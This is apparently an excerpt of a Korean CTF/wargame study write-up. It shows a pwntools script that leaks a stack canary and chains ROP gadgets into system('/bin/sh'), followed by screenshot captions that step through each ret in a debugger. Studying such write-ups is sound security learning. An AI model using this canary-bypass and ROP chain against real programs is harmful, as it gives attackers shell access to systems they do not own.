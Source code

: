 ```py
#system_plt = 0x601028
payload = b'a'*0x38

p.send(payload+b'a')
p.recvuntil(payload+b'a')

canary = b'\x00' + p.recvn(7)

pop_rdi_ret_gadget = 0x0000000000400853
binish = 0x400874
ret_gadget = 0x0000000000400285

payload += canary + b'a'*0x8 + p64(ret_gadget) + p64(pop_rdi_ret_gadget) + p64(binish) + p64(system_plt)
# payload += canary + b'a'*0x8 + p64(pop_rdi_ret_gadget) + p64(binish) + p64(system_plt)

p.send(payload)

p.interactive()
```

<br>

##### 1. 바이너리의 **ret** 실행 전

<img width="536" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/b6817e70-2878-43f8-805c-43f31ebe0948">

##### 2. 바이너리의 **ret** 실행 후 **rsp**와 **rip** 이동

<img width="544" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/dc46899e-9cfe-4ac4-bc08-2745ca351f20">

##### 3. return_address에 조작한 **ret** 실행 이후

<img width="543" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/54bb151c-691c-4a85-b606-160a08af19af">

##### 4. **pop rdi** 이후

<img width="771" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/af802e6d-41af-457d-81c2-4ccef6a0c25c">

##### 5. **ret** 이후

<img width="533" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/03f6e906-7aa6-4e45-b5bd-260883bfc623">

`system@plt`로 `rip`가 이동하여 `system("/bin/sh")` 함수 실행으로 익스플로잇 완료

{% endraw %}